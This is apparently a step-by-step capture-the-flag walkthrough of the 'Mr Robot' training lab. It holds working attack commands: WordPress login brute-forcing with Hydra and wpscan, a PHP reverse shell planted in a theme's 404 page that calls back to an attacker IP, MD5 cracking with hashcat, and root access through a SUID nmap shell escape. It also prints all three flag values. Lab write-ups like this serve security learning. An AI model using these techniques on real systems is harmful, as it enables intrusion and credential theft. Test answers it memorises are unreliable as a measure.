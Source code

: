 nmap: `nmap -p- --min-rate=1000 -T4  10.10.235.54`

Output:

`Nmap scan report for 10.10.235.54
Host is up (0.13s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https`


Gobuster: `gobuster dir -u http://10.10.235.54 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Output:

`===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.235.54
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/07/01 04:06:36 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/rss (Status: 301)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 301)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme (Status: 200)
/robots (Status: 200)`

Check readme:

Output - `I like where you head is at. However I'm not going to help you.`

Check robots.txt http://10.10.235.54/robots.txt:

Output -
`User-agent: *
fsocity.dic
key-1-of-3.txt`

fsocity.dic file downloaded.

- Seems to be a dictionary.

Go to http://10.10.235.54/key-1-of-3.txt:
`Key 1 = 073403c8a58a1f80d943455fb30724b9`

http://10.10.235.54/0/:
Has a user's blog. There's a login page, but no username anywhere around.

Login Page: http://10.10.235.54/wp-login.php

Dirsearch

dirb

wfuzz

Hydra using fsocity.dic:

hydra -L fsocity.dic -p test 10.10.104.30 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30

Username: Elliot
Password: test

hydra -l Elliot -P fsocity.dic 10.10.104.30 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30

--> Hydra took ages.

I then went through the dictionary file and found many duplicates, so I used sort + uniq to shorten the amount (from approx. 900,000 to 11451).

sort fsocity.dic | uniq > fsocity-sorted.txt

Then used wpscan!

wpscan --url http://10.10.185.119 --passwords fsocity-sorted.txt --usernames Elliot -t 50

Output: wpscan-output.txt

Username: Elliot
Password: ER28-0652

They work, log in to Http://10.10.185.119/wp-login.php

Directed to: http://10.10.185.119/wp-admin/

You can upload files, maybe just upload a reverse shell php + access it?

Webshells located in /usr/share/webshells/
we want ./php/php-reverse-shell.php

we just edit IP address, 10.8.82.167, port 4444, and shell /bin/bash.

Had to look this bit up:

1. Edit the site's 404 page:

Appearance, Editor, 404.php
Copy php reverse shell text into here.
Update file.

nc -lvnp 4444 on your Kali machine.

Navigate to a page that will give a 404. You get a reverse shell!

Searched for "key"
`daemon@linux:/$ find / -name *key* 2>/dev/null`

Found: /home/robot/key-2-of-3.txt

So, seems there's a robot user.

/etc/passwd:

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:

Can't read key-2-of-3.txt, only robot can.

In home folder, there's a file:

ls -la /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

Run hashcat to break md5:

kali@kali:~/labs/tryhackme/mr-robot$ hashcat -m 0 c3fcd3d76192e4007dfb496cca67e13b /usr/share/wordlists/rockyou.txt

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Sun Jul  5 19:02:53 2020 (1 sec)
Time.Estimated...: Sun Jul  5 19:02:54 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1508.1 kH/s (0.62ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 39936/14344385 (0.28%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: promo2007 -> harder

Username : robot
Password: abcdefghijklmnopqrstuvwxyz

su robot, it works!

robot@linux:~$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959

---
Privilege Escalation:

Hint = Nmap

robot@linux:~$ find / -perm -u=s -type f 2>/dev/null

Find all files with SUID bit set.
Output: find-outputl.txt
/usr/local/bin/nmap

Privilege Escalation on nmap:

```
nmap --interactive

nmap > !sh

# whoami
root

# cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
